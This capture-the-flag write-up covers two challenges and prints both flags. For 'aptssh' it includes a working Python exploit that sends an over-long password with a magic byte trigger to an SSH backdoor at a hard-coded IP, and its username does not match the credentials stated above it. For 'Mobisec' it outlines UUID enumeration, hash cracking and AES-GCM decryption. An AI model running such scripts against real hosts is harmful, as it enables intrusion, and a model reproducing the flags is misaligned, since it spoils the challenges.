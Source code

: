 
### aptssh
**Proof of flag**
`ctf{ba1e7756b2a842641357e840b47a477924b8deb0078e715754247453abb587be}`

**Summary of the vulnerabilities identified**
The challenge involved connecting to an SSH server using credentials that triggered a backdoor when the password exceeded 100 characters. The backdoor could be exploited by providing a specific payload.

**Proof of solving**
1. **SSH Connection**:
   - Attempted to connect using the credentials `aptssh:aptssh`, triggering the backdoor.

2. **Payload Creation**:
   - Created a payload that satisfied the backdoor conditions, appending a specific byte sequence.

```python
import pexpect

ssh_host = "34.159.156.124"
ssh_port = 32487
username = "sshuser"
payload = (
    b"a" * 100 +
    b"\xc3\x9e\xc2\xad\xc2\xbe\xc3\xaf"
)

child = pexpect.spawn(f"ssh -p {ssh_port} {username}@{ssh_host}")
child.expect("d:")
child.sendline(payload)
print(child.before.decode("utf-8"))
child.interact()
```

---

### Mobisec
**Proof of flag**
`CTF{77cd55d22ef0d516a45ed0e238fbc5dbc4c93b0824047ea3e0a0509a5a9735ac}`

**Summary of the vulnerabilities identified**
The challenge required exploiting UUIDs to leak hashed passwords and ciphertexts, followed by brute-forcing the passwords. The decryption process involved using PBKDF2 and AES-GCM to retrieve the final flag.

**Proof of solving**
1. **UUID Discovery**:
   - Utilized `wordlist.txt` to identify valid UUIDs.

2. **API Requests**:
   - Made requests to obtain hashed passwords and ciphertexts for each UUID.

3. **Password Cracking**:
   - Employed Hashcat to crack the password hashes.
